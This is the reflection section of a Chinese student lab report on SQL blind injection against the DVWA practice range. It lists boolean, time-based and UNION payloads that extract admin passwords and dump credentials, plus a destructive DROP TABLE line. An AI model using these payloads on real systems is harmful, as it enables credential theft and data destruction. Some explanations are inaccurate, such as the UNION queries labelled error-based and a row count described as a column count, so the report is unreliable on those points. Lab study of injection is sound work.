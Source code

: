 ## 心得体会

​	通过本次实验，了解了SQL盲注攻击的概念、原理和常见的注入Payload示例，并结合DVWA靶场SQL Injection (Blind)模块进行思路分析及攻击姿势展开实践。

​	通过查阅资料了解到：SQL盲注的两种主要形式是：

- 基于布尔的盲注（Boolean-based Blind Injection）：攻击者通过注入条件语句，利用应用程序中基于布尔条件的判断来获取有关数据库内容的信息。攻击者可以尝试不同的条件并根据应用程序的响应来验证其正确性。页面会返回报错信息

- 基于时间的盲注（Time-based Blind Injection）：攻击者在注入语句中使用延时函数或计算耗时操作，以观察应用程序对恶意查询的处理时间。通过观察响应时间的变化，攻击者可以逐渐推断数据库中的数据。页面不会返回任何报错信息
  基于时间的盲注通常会使用一些可能引起延迟或错误的操作，如睡眠函数sleep()、错误的 SQL 语句或其他耗时的操作。
- 错误盲注：攻击者通过构造会触发错误信息的语句，将数据库信息泄露在错误提示中。

​	同时我也分类总结了常见的盲注Payload:

**一、布尔盲注**

1. `id=1 AND (SELECT COUNT(*) FROM users) > 0`  
   - **作用**：探测`users`表是否存在。若页面正常返回，说明表中至少有一条记录。  
2. `id=1 AND SUBSTRING((SELECT version()), 1, 1) = '5'`  
   - **作用**：检查数据库版本首位是否为`5`（如MySQL 5.x）。`SUBSTRING`逐字符截取版本信息。  
3. `id=1 AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'), 1, 1)) = 97`  
   - **作用**：爆破`admin`用户密码的首字符（ASCII值`97`对应字母`a`）。  
4. `id=1 AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema='public') > 10`  
   - **作用**：探测`public`模式下表数量是否大于10，用于推断数据库结构。  
5. `id=1 AND LENGTH((SELECT database())) = 6`  
   - **作用**：检查当前数据库名称长度是否为6字符。

**二、时间盲注**

**原理**：通过条件触发的延时响应（如`SLEEP()`）判断真假。  
1. `id=1; IF((SELECT COUNT(*) FROM users) > 0, SLEEP(5), NULL)`  
   - **作用**：若`users`表存在记录，则页面响应延迟5秒。  
2. `id=1; IF((SELECT ASCII(SUBSTRING(...)) = 97, BENCHMARK(10000000, MD5('a')), NULL)`  
   - **作用**：通过`BENCHMARK`函数制造CPU密集型延迟，验证密码首字符是否为`a`。  
3. `id=1; IF(EXISTS(SELECT * FROM ... table_name='users'), BENCHMARK(...), NULL)`  
   - **作用**：若存在`users`表，则触发延时。  
4. `id=1; IF((SELECT COUNT(*) FROM ...) = 5, SLEEP(2), NULL)`  
   - **作用**：探测`users`表的列数是否为5。  
5. `id=1; IF((SELECT SUM(LENGTH(username)) FROM users) > 20, BENCHMARK(...), NULL)`  
   - **作用**：检查所有用户名的总长度是否超过20字符。

**三、错误盲注**

1. `id=1 UNION ALL SELECT 1,2,table_name FROM information_schema.tables`  
   - **作用**：联合查询直接获取所有表名（依赖错误回显或页面显示位置）。  
2. `id=1 UNION ALL SELECT 1,2,column_name FROM ... WHERE table_name='users'`  
   - **作用**：获取`users`表的所有列名。  
3. `id=1 UNION ALL SELECT username,password,3 FROM users`  
   - **作用**：直接泄露`users`表的账号密码。  
4. `id=1'; SELECT * FROM users WHERE username='admin' --`  
   - **作用**：注释后续语句并执行查询`admin`用户（需报错回显结果）。  
5. `id=1'; DROP TABLE users; --`  
   - **作用**：危险操作,直接删除`users`表（用于破坏性测试）。
   
   综上所述，本次实验收获很多。

